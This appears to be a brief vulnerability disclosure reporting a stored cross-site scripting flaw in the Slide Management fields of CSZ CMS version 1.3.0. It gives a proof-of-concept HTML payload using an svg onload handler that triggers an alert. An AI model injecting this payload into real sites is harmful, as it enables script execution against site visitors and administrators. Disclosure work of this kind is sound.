

product： CSZ CMS

download link： https://www.cszcms.com/product/download

version：1.3.0


There is Cross-Site Scripting (XSS)  vulnerability within  "Slide Management"  fields of Site Settings.



poc:
```
<div><p title="</div><svg/onload=alert(1)>">

```

Accessing Sites and successed

